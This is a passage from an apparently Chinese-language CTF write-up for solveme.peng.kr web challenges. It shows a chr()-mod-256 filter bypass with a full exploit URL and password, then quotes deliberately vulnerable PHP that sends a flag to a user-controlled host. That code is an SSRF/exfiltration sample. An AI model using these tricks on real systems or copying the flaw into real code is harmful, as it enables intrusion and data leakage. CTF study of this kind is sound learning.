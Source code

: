 ./secret.passwd得到password=simple_passw0rd

然后直接传username会被unset，value要是在32-127的可见字符中也要unset

看PHP手册里的chr(),第一个栗子就嗦

Note that if the number is higher than 256, it will return the number mod 256.
For example :
chr(321)=A because A=65(256)

然后就很容易啦，每个加256~

另外那种加好多小数点加上几e几的也可以~

```
http://array2string.solveme.peng.kr/?value[0]=305&value[1]=309&value[2]=372&value[3]=360&value[4]=351&value[5]=328&value[6]=353&value[7]=355&value[8]=363&value[9]=361&value[10]=366&value[11]=359&value[12]=323&value[13]=353&value[14]=365&value[15]=368&password=simple_passw0rd
```

好像数组只能这样一个一个传？恩x

### Give me a link

I want link of local server.

```
<?php
    error_reporting(0);
    require __DIR__.'/lib.php';

    if(isset($_GET['url'])){
        $url = $_GET['url'];

        if(preg_match('/_|\s|\0/', $url)){
            die('Not allowed character');     //url里不能有下划线
        }

        if(!preg_match('/^https?\:\/\/'.$_SERVER['HTTP_HOST'].'/i', $url)){
            die('Not allowed URL');           //url要匹配Host:http://givemealink.solveme.peng.kr
        }

        $parse = parse_url($url);             //parse_url解析 URL，返回其组成部分
        if($parse['path'] !== '/plz_give_me'){
            die('Not allowed path');
        }

        $ch = curl_init();                    //向解析出的$parse['host']地址curl发送flag
        curl_setopt($ch, CURLOPT_URL, $parse['scheme'].'://'.$parse['host'].'/'.$flag);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_exec($ch);
        curl_close($ch);

        echo 'Okay, I sent the flag.', '<hr>';
    }

    highlight_file(__FILE__);
```
